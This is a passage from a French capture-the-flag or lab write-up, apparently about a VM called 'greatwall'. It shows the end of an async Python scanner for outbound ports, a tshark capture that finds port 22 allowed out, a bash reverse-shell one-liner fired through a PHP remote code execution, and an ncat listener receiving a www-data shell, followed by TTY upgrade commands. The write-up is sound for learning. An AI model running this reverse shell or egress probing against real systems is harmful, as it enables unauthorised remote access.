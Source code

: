 ```python
        for i in range(0, total_ports, CONCURRENT_REQUESTS):
            batch = tasks[i:i + CONCURRENT_REQUESTS]
            await asyncio.gather(*batch)
            processed_ports += len(batch)
            sys.stdout.write(f"Progression: {processed_ports}/{total_ports} ports traités.\r")
            sys.stdout.flush()

    sys.stdout.write("\nScan terminé !\n")

if __name__ == "__main__":
    try:
        asyncio.run(main())
    except KeyboardInterrupt:
        sys.stdout.write("\nScan interrompu par l'utilisateur.\n")
    except Exception as e:
        sys.stdout.write(f"Une erreur inattendue est survenue: {e}\n")
```

Je mets l'interface réseau de VMWare en écoute et je n'ai pas à attendre très longtemps :

```console
$ sudo tshark -i vmnet1 -f "dst host 192.168.100.1 and not tcp port 80 and tcp[tcpflags] & tcp-syn != 0"
Running as user "root" and group "root". This could be dangerous.
Capturing on 'vmnet1'
    1 0.000000000 192.168.100.128 → 192.168.100.1 TCP 74 40346 → 22 [SYN] Seq=0 Win=64240 Len=0 MSS=1460 SACK_PERM TSval=2719262229 TSecr=0 WS=128 40346 22
```

Dans ma situation, cette règle est la bienvenue, car je peux continuer à utiliser mon port 80 pour charger les commandes PHP, downloader des fichiers, puis je ferais passer mon reverse shell sur le port 22.

Donc via le RCE PHP :

```bash
bash -i >& /dev/tcp/192.168.100.1/22 0>&1
```

Sur le port en écoute :

```console
$ sudo ncat -l -p 22 -v
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:22
Ncat: Listening on 0.0.0.0:22
Ncat: Connection from 192.168.100.128:50790.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@greatwall:~/html$ ^Z
[1]+  Stopped                 sudo ncat -l -p 22 -v
$ stty raw -echo; fg
sudo ncat -l -p 22 -v
                     id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
